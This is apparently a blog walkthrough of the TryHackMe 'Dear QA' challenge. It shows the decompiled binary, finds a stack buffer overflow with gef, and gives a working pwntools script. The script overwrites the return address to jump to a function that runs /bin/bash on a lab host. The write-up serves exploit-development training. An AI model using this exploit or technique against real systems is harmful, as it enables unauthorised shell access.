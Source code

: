 ```yaml
---
title: Walkthrough - Dear QA
published: true
---
```


Tags: PWN, Reversing, Overflow, ASM.
Description: Are you able to solve this challenge involving reverse engineering and exploit development?
Difficulty: Easy
URL: [https://tryhackme.com/room/dearqa](https://tryhackme.com/room/dearqa)

* * *

## Notes

- `file DearQA.DearQA`
- analyze the file in ghidra

There are a few different functions:

```c
void vuln(void)

{
  puts("Congratulations!");
  puts("You have entered in the secret function!");
  fflush(stdout);
  execve("/bin/bash",(char **)0x0,(char **)0x0);
  return;
}
```

```c
undefined8 main(void)

{
  undefined local_28 [32];
  
  puts("Welcome dearQA");
  puts("I am sysadmin, i am new in developing");
  printf("What\'s your name: ");
  fflush(stdout);
  __isoc99_scanf(&DAT_00400851,local_28);
  printf("Hello: %s\n",local_28);
  return 0;
}
```

```c
void __libc_csu_init(EVP_PKEY_CTX *param_1,undefined8 param_2,undefined8 param_3)

{
  long lVar1;
  
  lVar1 = 0;
  _init(param_1);
  do {
    (*(code *)(&__frame_dummy_init_array_entry)[lVar1])((ulong)param_1 & 0xffffffff,param_2,param_3)
    ;
    lVar1 = lVar1 + 1;
  } while (lVar1 != 1);
  return;
}
```

So this should be vulnerable to buffer ovrflow however I only have experience doing buffer overflows with windows executables. Buffer overflows occer when we send a program enough data so we can overflow it and overwrite other data or alter it. We might be able to use this vulnerability to jump to the vuln function which executes the /bin/bash and gain access to the server. 

For windows I would use Immunity debugger to find if the files has protections but in linux we can use `gdb` and `gef` to find the protections

![0xskar](/assets/dear-qa01.png)

This shows us that the file has all of the security protections turned off. So now what we need to do is find the offset where we can overflow the binary.

`pattern create 50` creates a pattern of 50 chars that we can use to send to the program. We can then check the memory and see if its overwritten with our pattern.

We then use `r` in gef to run the program and it should crash. so lets examine the memory address. 

![0xskar](/assets/dear-qa02.png)

We can use `x/xg $rsp` to call the memory address then after getting the address use `pattern offset 0x6161616161616166` We can now test to show control of the RSP, by running the binary again and replacing the RSP with all B's.

- create our pattern `python3 -c "print('A' * 40 + 'B' * 8)"` and run the code again pasting in our new pattern.

![0xskar](/assets/dear-qa03.png)

So since we confirmed we have control of the RSP variable, if we were to put a valid address on the RSP we can cause the program to continue through execution of the program. So we can use this to jump to the vuln function. 

Becuase the program has ASLR disabled this mean the binary will use the exact memory addresses every time it starts.

The vuln function has the memory address `0x00400686`

So with all of this information we can now create our exploit.

```python
#!/usr/bin/env python3

# import all from pwn
from pwn import *

# target address
host = "10.10.216.48"
port = "5700"

# target executable information
context(terminal = ['tmux', 'new-window'])
binary = context.binary = ELF("./DearQA.DearQA")
context(os = "linux", arch = "amd64")

# connect to target
connect = remote(host, port)
log.info("[+] Starting buffer Overflow")
connect.recvuntil(b"What's your name: ")
log.info("[+] Crafting payload")

# payload with target memory address
payload = b'A' * 40
payload += p64(0x00400686)

# send payload and keep socket open
log.info("[+] Sending payload to remote server")
connect.sendline(payload)
connect.interactive()
```

Executing the script gives us a reverse shell. However its not sending us back any information when we send characters. We can try to send through another reverse shell.

Not easy!

* * * 

## flag

![0xskar](/assets/dear-qa04.png)

* * * 

